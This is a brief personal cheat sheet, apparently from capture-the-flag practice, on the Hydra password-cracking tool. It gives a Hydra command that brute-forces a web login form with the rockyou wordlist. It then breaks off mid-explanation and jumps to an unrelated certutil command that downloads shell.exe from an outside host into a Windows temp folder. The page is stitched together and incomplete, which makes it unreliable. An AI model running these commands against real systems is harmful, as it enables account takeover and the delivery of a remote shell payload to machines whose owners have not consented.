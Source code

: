# Hydra

> Shahrukh Tramboo | February 13th, 2022

--------------------------------------

**Commands**

1.	form-post-data:
```bash
hydra -l amdin -P /usr/share/wordlists/rockyou.txt 10.10.56.204 http-post-form <request-url with all params:params:Login Failed> -t 64
```
-t → Number of tasks that can run in parallel.

Login Failed -> When someone enters wrong credentials

This requires three arguments separated by a colon which may not be null:

Certutil -urlcache -f http://10.17.39.185:8000/shell.exe C:/Windows/Temp/shell.exe
